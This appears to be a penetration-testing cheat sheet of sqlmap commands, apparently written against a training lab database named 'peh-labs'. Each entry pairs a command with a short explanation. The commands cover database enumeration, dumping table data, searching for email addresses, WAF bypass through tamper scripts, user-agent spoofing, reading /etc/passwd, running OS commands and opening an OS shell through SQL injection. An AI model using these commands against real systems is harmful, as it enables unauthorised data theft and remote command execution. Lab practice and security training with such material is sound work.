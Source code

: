 List Databases:

sqlmap -r req4.txt --dbs
Enumerates all databases in the target system.
List Tables:

sqlmap -r req4.txt -D peh-labs --tables
Lists all tables in a specific database.
List Columns:

sqlmap -r req4.txt -D peh-labs -T injection0x03_products --columns
Lists all columns in a specific table.
Dump Specific Columns:

sqlmap -r req4.txt -D peh-labs -T injection0x03_products -C name,price --dump
Dumps data from specific columns in a table.
Search for Data:

sqlmap -r req4.txt --search -C email --string '@gmail.com'
Searches for specific data within the database.
Bypass WAF:

sqlmap -r req4.txt --tamper=space2comment
Uses a tamper script to bypass Web Application Firewalls.
Custom User-Agent:

sqlmap -r req4.txt --user-agent="Mozilla/5.0 ... Chrome/92.0.4515.107 Safari/537.36"
Spoofs a browser User-Agent to bypass restrictions.
Time-Based Blind SQL Injection:

sqlmap -r req4.txt --time-sec=10
Exploits time-based blind SQL injection vulnerabilities.
Read File from Server:

sqlmap -r req4.txt --file-read=/etc/passwd
Reads a file from the server using SQL injection.
Execute OS Command:

sqlmap -r req4.txt --os-cmd="whoami"
Executes a system command via SQL injection.
List Database Users:

sqlmap -r req4.txt --users
Enumerates all database users in the system.
Check User Privileges:

sqlmap -r req4.txt --privileges -U dbuser
Checks the privileges of a specific database user.
OS Command Injection Test:

sqlmap -r req4.txt --os-shell
Tests for OS command injection vulnerabilities.
Code Injection Test:

sqlmap -r req4.txt --code
Checks for potential code injection vulnerabilities.
Use a Proxy:

sqlmap -r req4.txt --proxy=http://127.0.0.1:8080
Routes SQLMap traffic through a proxy server.
Adjust Level and Risk:

sqlmap -r req4.txt --level=5 --risk=3
Increases the level and risk for more aggressive testing.
Automated Testing:

sqlmap -r req4.txt --batch
Runs SQLMap in automated mode with all tests.
